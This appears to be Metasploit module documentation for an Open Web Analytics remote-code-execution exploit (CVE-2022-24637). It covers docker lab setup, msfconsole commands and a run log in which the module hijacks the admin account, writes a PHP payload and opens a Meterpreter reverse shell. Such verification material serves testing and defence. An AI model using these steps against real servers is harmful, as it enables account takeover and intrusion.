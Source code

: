 ## Vulnerable Application

Open Web Analytics (OWA) before 1.7.4 allows an unauthenticated remote attacker to obtain sensitive user information, which can be used to gain admin privileges by leveraging cache hashes. This occurs because files generated with '<?php (instead of the intended "<?php sequence) aren't handled by the PHP interpreter.

## Verification Steps

1. Start a vulnerable instance of OWA using docker
    - Download https://github.com/Pflegusch/CVE-2022-24637/blob/main/deployment/docker-compose.yml
    - Start the containers: ``docker compose up -d``
    - Open http://127.0.0.1:80/
    - Follow installation steps using the envs from the ``docker-compose.yml`` file
        - Public URL: ``http://127.0.0.1/``
        - Database Host (``docker inspect <db-container>`` and get ``IPAddress``, e.g ``172.18.0.2``)
        - Database Port: ``3306``
        - Database Name: ``owa``
        - Database User: ``owa``
        - Database Password: ``Demo12+#``
        - Continue
        - Site Domain: ``http://127.0.0.1``
        - Admin name: ``admin``
        - E-Mail: ``admin@admin.com``
        - Password: ``Demo12+#``

2. Start ``msfconsole``
3. ``use exploit/multi/http/open_web_analytics_rce``
4. ``set RHOSTS 127.0.0.1``
5. ``set RPORT 80``
6. ``set SSL false``
7. ``set LHOST 172.18.0.1`` -> this needs to be bridge IP that got created with the ``docker compose up -d`` command
8. ``check``
9. ``run``

````
msf6 exploit(multi/http/open_web_analytics_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/open_web_analytics_rce) > set SSL false
SSL => false
msf6 exploit(multi/http/open_web_analytics_rce) > set LHOST 172.22.0.1
LHOST => 172.22.0.1
msf6 exploit(multi/http/open_web_analytics_rce) > check
[+] 127.0.0.1:80 - The target is vulnerable.
msf6 exploit(multi/http/open_web_analytics_rce) > run

[*] Started reverse TCP handler on 172.22.0.1:4444 
[+] Connected to http://127.0.0.1:80/ successfully!
[*] Attempting to find cache of 'admin' user
[+] Found temporary password for user 'admin': b42f457df9d9482324ca8fe041f19f1c
[+] Changed the password of 'admin' to 'pwned'
[+] Logged in as admin user
[*] Creating log file
[+] Wrote payload to file
[*] Sending stage (39927 bytes) to 172.22.0.3
[*] Meterpreter session 3 opened (172.22.0.1:4444 -> 172.22.0.3:47728) at 2023-03-09 13:55:58 +0100
[+] Triggering payload! Check your listener!
[*] You can trigger the payload again at 'http://127.0.0.1:80//owa-data/caches/ERaG8bho.php

meterpreter > pwd
/var/www/html/owa-data/caches
meterpreter > getuid
Server username: www-data
````